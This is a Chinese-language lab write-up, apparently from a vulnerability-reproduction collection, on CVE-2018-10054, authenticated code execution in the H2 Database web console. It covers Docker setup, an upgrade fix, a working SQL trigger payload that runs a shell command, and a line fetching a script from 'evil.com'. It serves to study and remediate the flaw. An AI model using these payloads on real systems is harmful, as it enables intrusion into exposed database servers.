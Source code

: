 # H2 Database Web Console 认证远程代码执行漏洞 CVE-2018-10054

## 漏洞描述

H2 Database 是一个快速、开源的基于 Java 的关系型数据库管理系统（RDBMS），可用于嵌入式（集成在 Java 应用中）或客户端-服务器模式中。

当 Spring Boot 集成 H2 Database 时，如果设置如下选项，将会启用一个 Web 管理页面：

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

在 1.4.198 之前的 H2 Database 版本中，任何用户都可以通过创建新的数据库文件或连接到内存数据库来访问 Web 管理页面。认证通过后，攻击者可以通过以下命令之一执行任意代码：

- `RUNSCRIPT FROM 'http://evil.com/script.sql'`
- `CREATE ALIAS func AS code...; CALL func ...`
- `CREATE TRIGGER ... AS code...`

参考链接：

- https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html
- https://www.leavesongs.com/PENETRATION/talk-about-h2database-rce.html
- https://www.exploit-db.com/exploits/45506
- [h2database/h2database#1225](https://github.com/h2database/h2database/issues/1225)
- [h2database/h2database#1580](https://github.com/h2database/h2database/pull/1580)
- [h2database/h2database#1726](https://github.com/h2database/h2database/pull/1726)

## 漏洞影响

```
H2 Console < 1.4.198
```

## 环境搭建

Vulhub 执行如下命令启动一个集成了 H2 Database 1.4.197 版本的 Spring Boot：

```
docker compose up -d
```

容器启动后，Spring Boot 服务监听在 `http://your-ip:8080`，H2 管理页面默认地址为 `http://your-ip:8080/h2-console/`。

## 漏洞复现

首先，通过连接内存数据库登录 H2 Web 控制台：

```
jdbc:h2:mem:test
```

![](images/H2%20Database%20Web%20Console%20认证远程代码执行漏洞%20CVE-2018-10054/image-20250421165646309.png)

然后，执行如下命令以执行 `id` 命令：

```sql
CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    var is = java.lang.Runtime.getRuntime().exec("id").getInputStream()
    var scanner = new java.util.Scanner(is).useDelimiter("\\A")
    throw new java.lang.Exception(scanner.next())
$$;
```

可见，`id` 命令被成功执行，结果以异常的形式被抛出：

![](images/H2%20Database%20Web%20Console%20认证远程代码执行漏洞%20CVE-2018-10054/image-20250421165632880.png)

## 漏洞修复

升级至最新版本： https://github.com/h2database/h2database/releases/
